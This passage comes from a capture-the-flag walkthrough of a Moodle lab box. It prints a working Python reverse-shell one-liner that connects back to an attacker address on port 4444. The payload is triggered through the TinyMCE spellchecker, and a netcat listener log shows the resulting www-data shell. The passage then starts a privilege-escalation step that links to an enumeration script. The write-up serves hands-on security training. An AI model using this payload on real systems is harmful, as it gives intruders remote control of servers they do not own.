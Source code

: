 ~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

Go to `Navigation > My profile > Blog > Add a new entry` and clik on the "Toggle spell checker" icon.

![toggle-spellchecker.png](files/toggle-spellchecker.png)

You should now have a reverse shell:

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.7.77.
Ncat: Connection from 10.10.7.77:59597.
bash: cannot set terminal process group (1054): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
~~~

# [Task 4] Privilege Escalation

**Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.**

## #4.1  

**Download the [linuxprivchecker](https://gist.githubusercontent.com/sh1n0b1/e2e1a5f63fbec3706123/raw/1bd5f119a7f1e2d4c9328d78686ae79b4e1642f7/linuxprivchecker.py) to enumerate installed development tools.**
